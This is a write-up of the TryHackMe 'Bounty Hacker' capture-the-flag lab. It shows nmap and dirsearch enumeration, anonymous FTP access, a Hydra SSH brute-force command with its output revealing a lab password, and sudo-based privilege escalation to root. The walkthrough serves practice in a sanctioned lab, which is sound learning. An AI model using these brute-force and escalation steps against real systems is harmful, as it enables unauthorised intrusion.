 # Bounty Hacker
## Machine Info
A basic TryHackMe CTF challange that contains ftp, enumeration, brute force, privilege escalation.

## Used Tools
* Nmap
* Dirsearch
* Hydra


### *Enumeration* 

Initially, start with nmap scan:
> nmap -sV -sC -oN ./bounty_nmap MACHINE_IP

```white
Nmap 7.92 scan initiated Sun Feb 27 14:10:01 2022 as: nmap -sV -sC -oN ./bounty_nmap.txt 10.10.176.234
Nmap scan report for 10.10.176.234
Host is up (0.075s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have a ftp service running on port 21 and http service on port 80. Important point to see is that we can login as Anonymous to ftp. 

Login to ftp:
>ftp MACHINE_IP

![](https://i.imgur.com/YuV12d9.png)



Here, we see two text files that may contain useful information we can play with. Copy them to your local computer by ```get task.txt```  and ```get locks.txt```

Locks.txt looks like it has important things, we may use them as password. Also task.txt doesn't give much info but we may have a username named 'lin':

![](https://i.imgur.com/2YZWcrY.png)


Let's head to http://MACHINE_IP to see what much more info we may get. Meanwhile using dirsearch, try to enumerate subdirectories:

>dirsearch -l /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http:MACHINE_IP

```bash
  _|. _ _  _  _  _ _|_    v0.4.2                                                            
 (_||| _) (/_(_|| (_| )                                                                     
                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /usr/lib/python3/dist-packages/dirsearch/bounty_dirsearch.txt

Error Log: /root/.dirsearch/logs/errors-22-02-27_14-22-24.log

Target: http://10.10.176.234/

[14:22:24] Starting: 
[14:22:27] 403 -  278B  - /.htaccess.sample                                
[14:22:27] 403 -  278B  - /.htaccess.save
[14:22:27] 403 -  278B  - /.htaccessBAK                                    
[14:22:27] 403 -  278B  - /.htaccess_sc
[14:22:27] 403 -  278B  - /.htaccess_orig                                  
[14:22:27] 403 -  278B  - /.htm                                            
[14:22:27] 403 -  278B  - /.htaccessOLD2
[14:22:27] 403 -  278B  - /.htaccess.bak1
[14:22:27] 403 -  278B  - /.htaccessOLD
[14:22:27] 403 -  278B  - /.ht_wsr.txt
[14:22:27] 403 -  278B  - /.htaccess_extra
[14:22:27] 403 -  278B  - /.htaccess.orig
[14:22:27] 403 -  278B  - /.html
[14:22:27] 403 -  278B  - /.htpasswd_test
[14:22:27] 403 -  278B  - /.htpasswds                                      
[14:22:27] 403 -  278B  - /.httr-oauth                                     
[14:23:02] 301 -  315B  - /images  ->  http://10.10.176.234/images/         
[14:23:02] 200 -  938B  - /images/
[14:23:03] 200 -  969B  - /index.html                                       
[14:23:20] 403 -  278B  - /server-status                                    
[14:23:20] 403 -  278B  - /server-status/

Task Completed
```


In website, we see a conversation between Spike,Jet, Ed and Faye. Also they mention other names Edward and Ein.

![](https://i.imgur.com/p2XGHaD.png)

In subdirectory /images, we just have the image of the crew as we see on directly on site so it look like it won't be useful for now.



### *Obtaining Foothold*

Now we have 7 potential usernames Lin, Spike, Jet, Ed, Faye, Edward, Ein. Since we thought that locks.txt may be a password list that can be handy, let's try to bruteforce by creating a text file named 'potential_usernames.txt" where the usernames listed in.
>hydra -L potential_usernames.txt -P locks.txt ssh://MACHINE_IP

```white
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-27 14:27:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 182 login tries (l:7/p:26), ~12 tries per task
[DATA] attacking ssh://10.10.176.234:22/
[22][ssh] host: 10.10.176.234   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-27 14:28:12
```


Aand here it is! We found lin's password! Let's login via ssh:

![](https://i.imgur.com/R9lXPCE.png)



We should find the flags now. By checking Desktop with a quick 'ls -la' we found the user.txt flag!

![](https://i.imgur.com/zuNPyYR.png)



### *Privilege Escalation* 

In order to find root.txt (we may easily assume that it's in /root), we should escalate our privileges. My first attempt was a quick 'sudo -l' to find any commands we may run as root and it worked.

![](https://i.imgur.com/etsjXMO.png)


Let's head to GTFOBins and see how to get root shell.

![](https://i.imgur.com/GRFOSPT.png)

![](https://i.imgur.com/oDgdjzU.png)

As it seen, we easily escalated to the root shell, and got the flag!